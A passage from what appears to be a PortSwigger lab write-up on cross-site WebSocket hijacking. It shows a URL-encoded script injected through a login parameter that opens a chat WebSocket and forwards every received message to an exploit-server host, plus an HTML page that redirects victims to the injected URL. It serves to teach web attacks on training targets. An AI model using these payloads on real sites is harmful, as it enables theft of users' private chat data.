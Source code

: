 **URL encode all of it:**
```
%3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a200002035e04ccc0cea048008a00db.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E
```

**So our XSS payload will be:**
```
https://cms-0a200002035e04ccc0cea048008a00db.web-security-academy.net/login?username=%3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a200002035e04ccc0cea048008a00db.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=a
```

**Finally, we need to create a HTML payload that redirect victim to our XSS payload:**
```html
<html>
    <head>
        <title>CSRF-9</title>
    </head>
    <body>
        <script>
            document.location = 'https://cms-0a200002035e04ccc0cea048008a00db.web-security-academy.net/login?username=%3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a200002035e04ccc0cea048008a00db.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=a';
        </script>
    </body>
</html>
```

Let's host it and test it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113205041.png)
